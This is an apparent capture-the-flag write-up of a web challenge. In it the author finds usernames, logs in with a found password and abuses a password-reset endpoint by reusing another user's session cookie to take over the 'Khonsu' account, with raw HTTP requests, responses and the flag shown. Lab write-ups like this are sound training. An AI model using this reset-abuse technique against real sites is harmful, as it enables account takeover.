




Clicking "The Scroll of Gods" button we download a txt file called usernames.txt

And maybe have a password: deathgod123


In page source:
```html
       <!-- Right section: Login + Password Reset (for Anubis) -->
        <div class="form-section">
            <!-- LOGIN FORM -->
                <form method="POST">
                    <label>Username:</label>
                    <input type="text" name="username" required><br>
                    <label>Password:</label>
                    <input type="password" name="password" required><br>
                    <button type="submit">Enter the Temple</button>
                </form>
        </div>
    </div>
    <script>
        document.getElementById("resetForm")?.addEventListener("submit", function(event) {
            event.preventDefault();
            let username = document.getElementById("resetUsername").value;
            let newPassword = document.getElementById("newPassword").value;

            fetch("/reset-password", {
                method: "POST",
                headers: { "Content-Type": "application/x-www-form-urlencoded" },
                body: `username=${username}&new_password=${newPassword}`
            })
            .then(response => response.json())
            .then(data => {
                document.getElementById("resetMessage").innerText = data.message;
                if (data.success) {
                    document.getElementById("resetForm").classList.add("hidden");
                }
            });
        });
    </script>
```


Successful login:
Anubis:deathgod123




Request for resetting the password.
```
POST /reset-password HTTP/1.1
Host: 207.154.240.240:43243
Content-Length: 39
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:43243
Referer: http://207.154.240.240:43243/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBOVNA.Qt4TfAY7Nz8RgY9J0fba_QaP4tE
Connection: keep-alive

username=Anubis&new_password=New_anubis
```

This changes the password for the Anubis user.

Let's use the intruder to find the "true ruler".

Anubis and Khonsu gives this error of "Incorrect password" so this to account could be targeted. But the comment only mentions Anubis to login for reseting password. Let's try to reset the password with our second found user (Khonsu).



```
<!-- Right section: Login + Password Reset (for Anubis) -->
    <div class="form-section">        
    <p style="color: red;">Incorrect password</p>
```


```http
POST /reset-password HTTP/1.1
Host: 207.154.240.240:43243
Content-Length: 39
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:43243
Referer: http://207.154.240.240:43243/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBOVNA.Qt4TfAY7Nz8RgY9J0fba_QaP4tE
Connection: keep-alive

username=Khonsu&new_password=pwned123
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Thu, 01 May 2025 15:42:46 GMT
Content-Type: application/json
Content-Length: 58
Connection: close

{"message":"Password successfully reset!","success":true}
```

By using a cookie we can change the password for "Khonsu". So the cookie isn't tied to a user session.



Flag: O24{73mp13_53cr37s_Unv31l3d}

